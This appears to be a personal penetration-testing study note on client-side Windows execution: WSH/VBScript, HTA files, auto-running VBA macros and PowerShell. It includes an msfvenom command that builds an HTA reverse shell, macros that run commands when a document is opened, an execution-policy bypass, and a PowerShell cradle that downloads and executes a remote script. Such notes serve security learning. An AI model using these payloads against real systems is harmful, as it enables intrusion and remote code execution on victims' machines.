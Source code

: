 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

# WSH
- Windows Scripting Host
- Windows Native Engine
- Two executables reponsible for running Visual Basic Scrips:
	- `cscript.exe` : Command line scripts
	- `wscript.exe` : GUI Scripts
- Simple Hello World Script:
```vb
'Can be executed with wscript.exe script.vbs
Dim Message
Message = "Hello World"
MsgBox Message
```
- Run a program with vbs
```vb
Set Shell = Wscript.CreateObject("Wscript.Shell")
Shell.run("C:\Windows\System32\cmd.exe" & Wscript.ScriptFullName),0,True
'Executing the above with wscript.exe payload.exe will run cmd.exe in a new window
'Can also be run with cscript.exe
```
# HTA
- HTML Application, ends with `.hta`
- Dynamic HTML pages that contains `JScript` and `VBscript`
- `mshta.exe` is used to execute `.hta` files.
- Can also be executed automatically with Internet Explorer.
- An `.hta` files that executes binary
```html
<html>
<body>
<script>
	var c = 'cmd.exe';
	new ActiveXobject('Wscript.Shell').Run(c);
</script>
</body>
</html>
```
- This can be hosted with any web server.
- MsfVenom can be used to create a reverse shell with the `.hta` format
```bash
msfvenom -p <payload> LHOST=<ip> LPORT=<ip> -f hta-psh -o reverse.hta
```
- Metasploit exploit `exploit/windows/misc/hta_server` can be used to host a webserver hosting an HTA file.
# VBA
- Visual Basic for Application, implimented by Microsoft for it's application such as Word, Powerpoint using macros.
- Can access Windows Application Programing Interface, and low level APIs.
- Simple VBA Macro to display text:
```vb
Sub Popup()
	MsgBox ("Hello World!")
End Sub
'The above macro can be run by F5
```
- VBA to run code when the document is opened:
```vb
Sub Document_Open()
	Popup
End Sub

Sub AutoOpen()
	Popup
End Sub

Sub Popup()
	MsgBox ("Hello World")
```
- Macro is supported by specific file formats such as 
	- `.doc`
	- `.docm`
 - VBA to run commands: 
```vb
Sub Calc()
	Dim Payload as String
	Payload = "calc.exe"
	CreateObject("Wscript.Shell").Run Payload,0
End Sub
```

# PSH
- Run Powershell scripts bypassing the execution policy
```powershell
powershell.exe -ep bypass File script.ps1
```
- Run Powershell payload after downloading script from internet
```powershell
Invoke-Expression (New-Object System.Net.WebClient).DownloadString('http://172.17.0.1:8888/test.ps1')
# OR
powershell -c "Invoke-Expression (New-Object System.Net.WebClient).DownloadString('http://172.17.0.1:8888/test.ps1')"
```